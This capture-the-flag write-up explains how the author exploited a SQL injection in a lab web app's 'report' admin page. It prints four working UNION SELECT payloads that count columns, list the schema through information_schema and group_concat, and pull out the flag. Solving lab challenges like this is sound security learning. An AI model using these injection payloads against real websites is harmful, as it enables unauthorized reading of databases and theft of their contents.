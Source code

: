 # Web 200 - URL Anonymizer

> Writeup by f0xtr0t (Jay Bosamiya)

One of the different admin pages (namely, `report`), was vulnerable to an SQL injection from the `id` parameter. This allowed us to leak one value of one column of information directly to the output.

Additionally, it was easy to notice that it was using MySQL. Hence, we could use the different "special tables" in MySQL with a `UNION SELECT` based query and obtain information.

The most irritating part of this process was finding the number of columns in the union select attack, since (for some reason), my extensions on Firefox were messing up, and I was constantly forced to manually keep running URLencode and URLdecode :(

Nevertheless, using `group_concat()`, it is possible to obtain all entries in a column, as a single row, and we used that to obtain information in a very fast way.

Without further ado, here are the different queries that were run (URLdecoded versions, for easier reading):

```
http://10.13.37.12/admin.php?page=report&id=asd" UNION SELECT 0,1,2,3 -- 

http://10.13.37.12/admin.php?page=report&id=asd" UNION SELECT 0,1,group_concat(table_name),3 FROM information_schema.tables where table_schema="web" -- 

http://10.13.37.12/admin.php?page=report&id=asd" UNION SELECT 0,1,group_concat(column_name),3 FROM information_schema.columns where table_schema="web" -- 

http://10.13.37.12/admin.php?page=report&id=asd" UNION SELECT 0,1,group_concat(flag),3 FROM flag -- 
```

The `flag` column in the `flag` table had the flag :)